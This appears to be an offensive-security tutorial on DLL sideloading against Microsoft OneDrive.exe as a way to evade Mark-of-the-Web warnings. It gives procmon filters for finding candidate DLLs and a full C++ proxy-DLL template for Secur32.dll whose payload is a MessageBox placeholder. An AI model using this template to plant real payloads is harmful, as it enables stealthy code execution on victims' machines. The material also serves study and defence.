


By exploiting the behavior of Microsoft-signed binaries and how they handle DLL loading, attackers can bypass common defenses such as `Mark-of-the-Web (MotW)` and execute malicious code on target systems.

# Identify Microsoft-signed binaries

DLL sideloading is a code execution technique that exploits how Windows applications load Dynamic Link Libraries (DLLs). When an application loads a DLL without specifying a full path, the Windows loader follows a defined DLL search order. This search starts in the application's folder.

We can place a malicious DLL in the same folder as a legitimate, signed executable. If the program doesn't have harcoded the path, windows will load our DLL from the current directory.

This result in code execution within the context of as trusted binary without triggering user warnings.

> **Note**: This bypass MoTW!!
To check MoTW we can use Powershell. `ZoneId=3` value indicates the file originated from the internet.

```powershell
PS C:\Tools> Get-Content -Path .\putty.exe -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://www.chiark.greenend.org.uk/
HostUrl=https://the.earth.li/~sgtatham/putty/0.83/w64/putty.exe
```

Order that Windows follows when searching the dll:

* Directory where the app was loaded
* `C:\windows\system32\`
* `C:\windows\system\`
* `C:\windows\`
* Current working directory
* Directories in `$PATH` environment variable

> **Note**: To mitigate dll sideloading, use `LoadLibraryExA()` with `LOAD_LIBRARY_SEARCH_*` flags and configure the DLL search path using `SetDefaultDllDirectories()` or `AddDllDirectory()`.

From now on we are going to use `C:\Program Files\Microsoft OneDrive\OneDrive.exe`

To find a good candidate to dll sideloading we can use `procmon` from SysInternals to see which DLLs are loaded.

* [https://learn.microsoft.com/en-us/sysinternals/downloads/procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)

We can set filter such as:

* `Process Name` contains `OneDrive.exe`
* `Operation` is `CreateFile`
* `Result` is `NAME NOT FOUND`
* `Path` ends with `.dll`



In that case `OneDrive.exe` tries to load different DLLs from the current working directory. Examples of dlls are `Secur32.dll`, `VERSION.dll`, `WTSAPI.dll` among others.

From now on we are going to user `Secur32.dll` as an example.


# DLL proxying

To successfully abuse DLL sideloading, our malicious dll must seems the legitimate one closely enouth to avoid crashing the application.

So, we need to export the expected functions and forward them to the real `Secur32.dll`.

It allows us to maintain the application's normal behaviour while embedding out malicious code.


```
Signed Executable (e.g. OneDrive.exe)
                  |
                  v
    Proxy DLL (Malicious Secur32.dll)
                  |
          +-------+-------+
          |               |
          v               v
      DllMain         Forward Legitimate
          |               Calls
          v               |
  Execute Malicious       v
        Code         Original DLL
          |          (System32\Secur32.dll)
          v
   Attacker Payload
```


> **Note**: Windows does not verify by default the digital signature of a DLL before loading it. Is it uncommon that applications implements signature checking.


One first approach of dll proxying could be:

```cpp
#include "pch.h"

#include <Windows.h>

#ifdef _WIN64
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\System32\\secur32.dll"
#else
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\SysWOW64\\secur32.dll"
#endif // _WIN64

#pragma comment(linker, "/EXPORT:GetUserNameExW=" DLLPATH ".GetUserNameExW")

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
    {
     MessageBoxA(NULL, "DLL Sideloading", "Executing from OneDrive", 0);

    }
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

If we execute `OneDrive.exe` we will see that our dll is succesfully load and we can see our MessageBox, but after closing it some errors will appear.



To solve that we are going to automatically export all the functions with the help of `perfect_dll_proxy.py`.

* [https://github.com/mrexodia/perfect-dll-proxy](https://github.com/mrexodia/perfect-dll-proxy)

```
python3 .\perfect_dll_proxy.py .\secur32.dll.original
```

Will create a `.cpp` template file with all the exports, we just need to put our malicious code inside.

```cpp
#include "pch.h"

#include <Windows.h>

#ifdef _WIN64
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\System32\\secur32.dll"
#else
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\SysWOW64\\secur32.dll"
#endif // _WIN64

#pragma comment(linker, "/EXPORT:AcceptSecurityContext=" DLLPATH ".AcceptSecurityContext")
#pragma comment(linker, "/EXPORT:AcquireCredentialsHandleA=" DLLPATH ".AcquireCredentialsHandleA")
#pragma comment(linker, "/EXPORT:AcquireCredentialsHandleW=" DLLPATH ".AcquireCredentialsHandleW")
#pragma comment(linker, "/EXPORT:AddCredentialsA=" DLLPATH ".AddCredentialsA")
#pragma comment(linker, "/EXPORT:AddCredentialsW=" DLLPATH ".AddCredentialsW")
#pragma comment(linker, "/EXPORT:AddSecurityPackageA=" DLLPATH ".AddSecurityPackageA")
#pragma comment(linker, "/EXPORT:AddSecurityPackageW=" DLLPATH ".AddSecurityPackageW")
#pragma comment(linker, "/EXPORT:ApplyControlToken=" DLLPATH ".ApplyControlToken")
#pragma comment(linker, "/EXPORT:ChangeAccountPasswordA=" DLLPATH ".ChangeAccountPasswordA")
#pragma comment(linker, "/EXPORT:ChangeAccountPasswordW=" DLLPATH ".ChangeAccountPasswordW")
#pragma comment(linker, "/EXPORT:CompleteAuthToken=" DLLPATH ".CompleteAuthToken")
#pragma comment(linker, "/EXPORT:CredMarshalTargetInfo=" DLLPATH ".CredMarshalTargetInfo")
#pragma comment(linker, "/EXPORT:CredUnmarshalTargetInfo=" DLLPATH ".CredUnmarshalTargetInfo")
#pragma comment(linker, "/EXPORT:DecryptMessage=" DLLPATH ".DecryptMessage")
#pragma comment(linker, "/EXPORT:DeleteSecurityContext=" DLLPATH ".DeleteSecurityContext")
#pragma comment(linker, "/EXPORT:DeleteSecurityPackageA=" DLLPATH ".DeleteSecurityPackageA")
#pragma comment(linker, "/EXPORT:DeleteSecurityPackageW=" DLLPATH ".DeleteSecurityPackageW")
#pragma comment(linker, "/EXPORT:EncryptMessage=" DLLPATH ".EncryptMessage")
#pragma comment(linker, "/EXPORT:EnumerateSecurityPackagesA=" DLLPATH ".EnumerateSecurityPackagesA")
#pragma comment(linker, "/EXPORT:EnumerateSecurityPackagesW=" DLLPATH ".EnumerateSecurityPackagesW")
#pragma comment(linker, "/EXPORT:ExportSecurityContext=" DLLPATH ".ExportSecurityContext")
#pragma comment(linker, "/EXPORT:FreeContextBuffer=" DLLPATH ".FreeContextBuffer")
#pragma comment(linker, "/EXPORT:FreeCredentialsHandle=" DLLPATH ".FreeCredentialsHandle")
#pragma comment(linker, "/EXPORT:GetComputerObjectNameA=" DLLPATH ".GetComputerObjectNameA")
#pragma comment(linker, "/EXPORT:GetComputerObjectNameW=" DLLPATH ".GetComputerObjectNameW")
#pragma comment(linker, "/EXPORT:GetSecurityUserInfo=" DLLPATH ".GetSecurityUserInfo")
#pragma comment(linker, "/EXPORT:GetUserNameExA=" DLLPATH ".GetUserNameExA")
#pragma comment(linker, "/EXPORT:GetUserNameExW=" DLLPATH ".GetUserNameExW")
#pragma comment(linker, "/EXPORT:ImpersonateSecurityContext=" DLLPATH ".ImpersonateSecurityContext")
#pragma comment(linker, "/EXPORT:ImportSecurityContextA=" DLLPATH ".ImportSecurityContextA")
#pragma comment(linker, "/EXPORT:ImportSecurityContextW=" DLLPATH ".ImportSecurityContextW")
#pragma comment(linker, "/EXPORT:InitSecurityInterfaceA=" DLLPATH ".InitSecurityInterfaceA")
#pragma comment(linker, "/EXPORT:InitSecurityInterfaceW=" DLLPATH ".InitSecurityInterfaceW")
#pragma comment(linker, "/EXPORT:InitializeSecurityContextA=" DLLPATH ".InitializeSecurityContextA")
#pragma comment(linker, "/EXPORT:InitializeSecurityContextW=" DLLPATH ".InitializeSecurityContextW")
#pragma comment(linker, "/EXPORT:LsaCallAuthenticationPackage=" DLLPATH ".LsaCallAuthenticationPackage")
#pragma comment(linker, "/EXPORT:LsaConnectUntrusted=" DLLPATH ".LsaConnectUntrusted")
#pragma comment(linker, "/EXPORT:LsaDeregisterLogonProcess=" DLLPATH ".LsaDeregisterLogonProcess")
#pragma comment(linker, "/EXPORT:LsaEnumerateLogonSessions=" DLLPATH ".LsaEnumerateLogonSessions")
#pragma comment(linker, "/EXPORT:LsaFreeReturnBuffer=" DLLPATH ".LsaFreeReturnBuffer")
#pragma comment(linker, "/EXPORT:LsaGetLogonSessionData=" DLLPATH ".LsaGetLogonSessionData")
#pragma comment(linker, "/EXPORT:LsaLogonUser=" DLLPATH ".LsaLogonUser")
#pragma comment(linker, "/EXPORT:LsaLookupAuthenticationPackage=" DLLPATH ".LsaLookupAuthenticationPackage")
#pragma comment(linker, "/EXPORT:LsaRegisterLogonProcess=" DLLPATH ".LsaRegisterLogonProcess")
#pragma comment(linker, "/EXPORT:LsaRegisterPolicyChangeNotification=" DLLPATH ".LsaRegisterPolicyChangeNotification")
#pragma comment(linker, "/EXPORT:LsaUnregisterPolicyChangeNotification=" DLLPATH ".LsaUnregisterPolicyChangeNotification")
#pragma comment(linker, "/EXPORT:MakeSignature=" DLLPATH ".MakeSignature")
#pragma comment(linker, "/EXPORT:QueryContextAttributesA=" DLLPATH ".QueryContextAttributesA")
#pragma comment(linker, "/EXPORT:QueryContextAttributesW=" DLLPATH ".QueryContextAttributesW")
#pragma comment(linker, "/EXPORT:QueryCredentialsAttributesA=" DLLPATH ".QueryCredentialsAttributesA")
#pragma comment(linker, "/EXPORT:QueryCredentialsAttributesW=" DLLPATH ".QueryCredentialsAttributesW")
#pragma comment(linker, "/EXPORT:QuerySecurityContextToken=" DLLPATH ".QuerySecurityContextToken")
#pragma comment(linker, "/EXPORT:QuerySecurityPackageInfoA=" DLLPATH ".QuerySecurityPackageInfoA")
#pragma comment(linker, "/EXPORT:QuerySecurityPackageInfoW=" DLLPATH ".QuerySecurityPackageInfoW")
#pragma comment(linker, "/EXPORT:RevertSecurityContext=" DLLPATH ".RevertSecurityContext")
#pragma comment(linker, "/EXPORT:SaslAcceptSecurityContext=" DLLPATH ".SaslAcceptSecurityContext")
#pragma comment(linker, "/EXPORT:SaslEnumerateProfilesA=" DLLPATH ".SaslEnumerateProfilesA")
#pragma comment(linker, "/EXPORT:SaslEnumerateProfilesW=" DLLPATH ".SaslEnumerateProfilesW")
#pragma comment(linker, "/EXPORT:SaslGetContextOption=" DLLPATH ".SaslGetContextOption")
#pragma comment(linker, "/EXPORT:SaslGetProfilePackageA=" DLLPATH ".SaslGetProfilePackageA")
#pragma comment(linker, "/EXPORT:SaslGetProfilePackageW=" DLLPATH ".SaslGetProfilePackageW")
#pragma comment(linker, "/EXPORT:SaslIdentifyPackageA=" DLLPATH ".SaslIdentifyPackageA")
#pragma comment(linker, "/EXPORT:SaslIdentifyPackageW=" DLLPATH ".SaslIdentifyPackageW")
#pragma comment(linker, "/EXPORT:SaslInitializeSecurityContextA=" DLLPATH ".SaslInitializeSecurityContextA")
#pragma comment(linker, "/EXPORT:SaslInitializeSecurityContextW=" DLLPATH ".SaslInitializeSecurityContextW")
#pragma comment(linker, "/EXPORT:SaslSetContextOption=" DLLPATH ".SaslSetContextOption")
#pragma comment(linker, "/EXPORT:SealMessage=" DLLPATH ".SealMessage")
#pragma comment(linker, "/EXPORT:SeciAllocateAndSetCallFlags=" DLLPATH ".SeciAllocateAndSetCallFlags")
#pragma comment(linker, "/EXPORT:SeciAllocateAndSetIPAddress=" DLLPATH ".SeciAllocateAndSetIPAddress")
#pragma comment(linker, "/EXPORT:SeciFreeCallContext=" DLLPATH ".SeciFreeCallContext")
#pragma comment(linker, "/EXPORT:SecpFreeMemory=" DLLPATH ".SecpFreeMemory")
#pragma comment(linker, "/EXPORT:SecpTranslateName=" DLLPATH ".SecpTranslateName")
#pragma comment(linker, "/EXPORT:SecpTranslateNameEx=" DLLPATH ".SecpTranslateNameEx")
#pragma comment(linker, "/EXPORT:SetContextAttributesA=" DLLPATH ".SetContextAttributesA")
#pragma comment(linker, "/EXPORT:SetContextAttributesW=" DLLPATH ".SetContextAttributesW")
#pragma comment(linker, "/EXPORT:SetCredentialsAttributesA=" DLLPATH ".SetCredentialsAttributesA")
#pragma comment(linker, "/EXPORT:SetCredentialsAttributesW=" DLLPATH ".SetCredentialsAttributesW")
#pragma comment(linker, "/EXPORT:SspiCompareAuthIdentities=" DLLPATH ".SspiCompareAuthIdentities")
#pragma comment(linker, "/EXPORT:SspiCopyAuthIdentity=" DLLPATH ".SspiCopyAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiDecryptAuthIdentity=" DLLPATH ".SspiDecryptAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiEncodeAuthIdentityAsStrings=" DLLPATH ".SspiEncodeAuthIdentityAsStrings")
#pragma comment(linker, "/EXPORT:SspiEncodeStringsAsAuthIdentity=" DLLPATH ".SspiEncodeStringsAsAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiEncryptAuthIdentity=" DLLPATH ".SspiEncryptAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiExcludePackage=" DLLPATH ".SspiExcludePackage")
#pragma comment(linker, "/EXPORT:SspiFreeAuthIdentity=" DLLPATH ".SspiFreeAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiGetTargetHostName=" DLLPATH ".SspiGetTargetHostName")
#pragma comment(linker, "/EXPORT:SspiIsAuthIdentityEncrypted=" DLLPATH ".SspiIsAuthIdentityEncrypted")
#pragma comment(linker, "/EXPORT:SspiLocalFree=" DLLPATH ".SspiLocalFree")
#pragma comment(linker, "/EXPORT:SspiMarshalAuthIdentity=" DLLPATH ".SspiMarshalAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiPrepareForCredRead=" DLLPATH ".SspiPrepareForCredRead")
#pragma comment(linker, "/EXPORT:SspiPrepareForCredWrite=" DLLPATH ".SspiPrepareForCredWrite")
#pragma comment(linker, "/EXPORT:SspiUnmarshalAuthIdentity=" DLLPATH ".SspiUnmarshalAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiValidateAuthIdentity=" DLLPATH ".SspiValidateAuthIdentity")
#pragma comment(linker, "/EXPORT:SspiZeroAuthIdentity=" DLLPATH ".SspiZeroAuthIdentity")
#pragma comment(linker, "/EXPORT:TranslateNameA=" DLLPATH ".TranslateNameA")
#pragma comment(linker, "/EXPORT:TranslateNameW=" DLLPATH ".TranslateNameW")
#pragma comment(linker, "/EXPORT:UnsealMessage=" DLLPATH ".UnsealMessage")
#pragma comment(linker, "/EXPORT:VerifySignature=" DLLPATH ".VerifySignature")

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
        case DLL_PROCESS_ATTACH:
            MessageBoxA(NULL, "DLL Sideloading", "Executing from OneDrive", 0);
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

